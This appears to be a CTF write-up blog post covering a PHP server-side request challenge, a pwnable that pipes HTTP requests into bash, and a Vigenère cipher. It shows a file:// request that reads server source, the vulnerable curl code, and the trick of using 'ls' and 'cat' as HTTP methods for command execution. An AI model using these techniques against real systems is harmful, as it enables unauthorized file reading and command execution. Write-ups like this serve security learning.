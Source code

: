 ## WEB - Rosyn 
```
[!] The flag.txt is located in the flag folder.

IP : 34.125.194.164
Port : 49154
```
The website seems to redirect the Google . com , if URL parameter is not present in a GET request. 

Some URL parsers will also have a feature of navigating files with `file://` handler, which was the case here. 

This is also known as php file inclusion.


http://34.125.194.164:49157/index.php?url=file:///var/www/html/index.php
```php

<?php
function geturl($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        curl_close($ch);
        echo $output;
}

if(isset($_GET['url'])){
	geturl($_GET['url']);
}
else{
	header("Location: index.php?url=https://google.com");
}

echo "<!-- Whisper to tell you, flag is in flag.txt under the root directory -->";
```

Putting the hint and site comment together, I got the flag.

![image](https://eqqn.github.io/images/i_made_this.png)

## Pwnable - Check check check

```
mic test one, two, three!!!

IP : 34.64.203.138
Port : 10009
```

This one is very cute.

![image](https://eqqn.github.io/images/checkcheckcheck.JPG)

As you can see, it pipes your HTTP request directly into bash, resulting in interesting output, 
since there is no stock HTTP method that we can use to read the flag.txt

Of course, we can make up our own HTTP methods like `ls` and `cat` and the rest of URL seemed to be also interpreted as filepath.

![image](https://eqqn.github.io/images/checkcheckcheck_solved.jpg)

## Crypto - French

```
French Ciper

V3Y4GK0FW{EccrEs_Xpvtj_Icdc}
```

My time to shine, 4 years of living in France paying off!

It is obviously a Vignere cipher. If you read the https://www.dcode.fr/vigenere-cipher  
on how to decipher the key knowing plaintext , it says you can retrieve the key by subtracting the ciphertext from plaintext.
As we know the flag format and the first part of the cipher
```
V3Y4GK0FW
-
T3N4CI0US
```
we get some repeating key of 3 characters. Numbers are not ciphered. I tweaked the key manually a bit by 1 letter 
(as my subtraction was somehow offset by one) and the key was *CLECLE* , which translated from french means KEYKEY.

![image](https://eqqn.github.io/images/CLECLE.JPG)

## The funny bit

The event discord for this CTF is an absolute riot. Particularly there were comments about stolen challenges, OSINT category 
was entirely broken and many challenges had to go into maintenance, flags and hints were changed multiple times. 
Too much guessing, ambiguous or misleading flag formats was frustrating some players.

But I enjoyed the easygoing nature of the challenges, dank memes, walking down tokyo on google maps, 
looking up the entirety of J-AIR Embraer fleet and guessing wrong. Trying 20 different names of electric socket, and guessing wrong.
Cheers!

![image](https://eqqn.github.io/images/unknown-25.png)



